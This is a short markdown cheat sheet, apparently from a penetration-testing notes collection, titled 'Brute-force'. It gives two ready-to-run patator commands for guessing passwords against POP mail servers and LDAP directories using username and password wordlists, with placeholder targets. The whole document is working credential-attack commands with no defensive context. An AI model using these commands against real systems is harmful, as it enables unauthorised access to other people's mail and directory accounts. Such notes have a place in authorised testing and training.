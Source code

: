 # Brute-force

## POP

```bash
python patator.py pop_passd host=<ip> user=FILE0 password=FILE1 0=usernames.txt  1=top-1000.txt -x ignore:code=500
```

---

## LDAP

```bash
python patator.py ldap_login host=<target> binddn='CN=FILE0,dc=<domain>,dc=<fqdn>' bindpw=FILE1 0=users.txt 1=passwords.txt
```

